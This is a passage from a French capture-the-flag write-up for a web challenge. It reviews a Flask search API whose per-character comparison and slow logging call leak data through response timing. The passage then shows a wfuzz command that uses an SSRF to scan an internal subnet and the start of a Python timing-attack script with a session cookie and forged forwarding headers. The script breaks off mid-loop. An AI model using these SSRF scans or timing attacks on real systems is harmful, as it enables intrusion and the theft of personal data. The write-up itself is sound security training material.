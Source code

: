 ```python
            searchBy = request.args.get("searchby")
            for employee in employees:
                found = True
                for i in range(len(request.args[searchBy])):
                    if i >= len(employee[searchBy]): break
                    if(request.args[searchBy][i] == employee[searchBy][i]):
                        #we load this library from our modified python binary, so don't be afraid to not have this method, it is included in your workspace ;)
                        #moreover, we fix the log4j vulnerability and now we use a tool developed by google as third party, so no more RCE.
                        #todo: fix delay between this server and the logger of google, it's quite long and boring for big queries
                        send_search_to_logger(f"{ip} search for caracter {request.args[searchBy][i]}") 
                    else: 
                        found = False
                        break
            if(found):
                return f"Found an employee that match your research (potentially partially): {employees[0]['name']} {employees[0]['surname']}"
            else: return "Not found"
        else: return "Invalid value for parameter 'searchBy'"
    else: return "Missing parameter, please check the documentation."

app.run(host="0.0.0.0",port="80")
```
En lisant le code attentivement, on s'aperçoit qu'il n'y a pas de vulnérabilité, cependant quelque chose nous interpelle, le script compare caractère par caractère, or si le caractère est juste, alors il appelle une fonction qui met du temps à répondre !
Intéressant, si on teste caractère par caractère et qu'on regarde le temps de réponse, on pourra alors exfiltrer les noms et prénoms des employés (le format du flag quoi !!).

Plus qu'à trouver cette API, et utiliser notre SSRF sur Flower CDN pour la contacter ! Avec un script qui mesure les temps de réponse pour les caractères, on pourra exfiltrer des données.

Après m'être fait brainfuck parce que je ne trouvais pas l'endpoint, je me suis souvenu qu'il y avait dans les headers de Flower CDN un champs "x-internal-ip 172.25.0.3", qui quelques heures plus tôt était 172.26.0.4 !! Il y a donc plusieurs networks !
(Au moment du write-up je vois que le champs et repassé à 172.26.0.4)

Je lance donc une énumération rapide dessus avec notre SSRF (on ne peut pas le joindre depuis la machine backdoor...):
```
wfuzz -z range,2-200 -b PHPSESSID=b66f9b93043e0ea5998b486206739ae8 -d "url=http://172.26.0.FUZZ/" --ss "true" https://flowercdn.web.heroctf.fr/user/data/new
```
On à une réponse pour 172.26.0.3, c'est sûr c'est notre API !
Plus qu'à développer le script:
```python
import requests
import string

burp0_url = "https://flowercdn.web.heroctf.fr:443/api/user/new_data.php"
burp0_cookies = {"PHPSESSID": "b66f9b93043e0ea5998b486206739ae8"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "none", "Sec-Fetch-User": "?1", "Sec-Gpc": "1", "X-Forwarded-For": "172.26.0.4", "X-Real-Ip": "172.26.0.4", "Te": "trailers"}

def blind(exfiltrated):
    for char in string.printable:
        guess = f"{exfiltrated}{char}"
```